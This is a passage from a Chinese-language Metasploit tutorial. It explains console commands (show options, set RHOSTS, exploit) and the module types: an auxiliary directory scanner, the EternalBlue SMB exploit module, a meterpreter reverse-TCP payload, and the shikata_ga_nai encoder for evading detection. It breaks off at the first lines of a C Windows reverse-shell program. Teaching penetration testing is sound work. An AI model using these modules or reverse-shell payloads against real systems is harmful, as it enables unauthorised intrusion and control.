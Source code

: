 <a name="KXDKB"></a>
### 4、show options
show options命令可以显示当前模块的选项，使用方法如下：
```bash
msf > show options
```
<a name="gfUkO"></a>
### 5、set
set命令可以设置当前模块的选项，使用方法如下：
```bash
msf > set <option> <value>
```
例如，设置RHOSTS选项的值：
```bash
msf > set RHOSTS 192.168.0.100
```
<a name="XvbNY"></a>
### 6、exploit
exploit命令可以执行当前模块的攻击，使用方法如下：
```bash
msf > exploit
```
<a name="XK2Bx"></a>
## 四、Metasploit的模块
Metasploit包含多个模块，下面介绍其中几个常用的模块。
<a name="uXTSu"></a>
### 1、Auxiliary模块
Auxiliary模块是一个通用模块，主要用于扫描、信息收集、恢复数据等。这些模块通常不会直接攻击目标，而是先获取有关目标的信息，以指导后续攻击。<br />例如，auxiliary/scanner/http/dir_scanner是一个HTTP目录扫描器，可以通过扫描网站目录来查找敏感文件或目录。
<a name="lBWZq"></a>
### 2、Exploit模块
Exploit模块是一个特殊的模块，用于利用已知的漏洞攻击目标系统。这些模块可以尝试多种攻击方式，并自动选择最有效的攻击方式。<br />例如，exploit/windows/smb/ms17_010_eternalblue是一个利用MS17-010漏洞的模块，可以通过SMB协议在Windows系统上执行代码。
<a name="tROG9"></a>
### 3、Payload模块
Payload模块是Metasploit中最重要的模块之一，它用于实现对目标系统的控制。Metasploit支持多种类型的Payload，包括反向连接Shell、Meterpreter Shell、VNC注入等。<br />例如，payload/windows/meterpreter/reverse_tcp是一个Windows系统的Meterpreter反向Shell Payload，可以建立与攻击机的反向连接并提供完全的系统访问权限。
<a name="qAQkb"></a>
### 4、Encoder模块
Encoder模块用于将Payload进行加密或编码，以绕过防御系统的检测。这些模块通常会使用多种技术进行混淆和伪装。<br />例如，encoder/x86/shikata_ga_nai是一个常用的X86编码器，可以将Payload进行混淆和伪装，以增加其难以被检测的程度。
<a name="JsU3D"></a>
## 五、Metasploit的高级应用
除了基本操作和常用模块外，Metasploit还具有许多高级功能和应用。下面介绍其中几个。
<a name="rONbS"></a>
### 1、自定义Payload
Metasploit允许用户自定义Payload，以满足特定的渗透测试需求。用户可以选择不同的编程语言（如C、Python、Ruby等）和不同的平台（如Windows、Linux、Android等）来编写Payload。<br />例如，使用C语言编写一个Windows反向Shell Payload：
```c
#include <stdio.h>
#include <winsock2.h>

#pragma comment(lib, "ws2_32")

int main(int argc, char **argv) {
    WSADATA wsaData;
```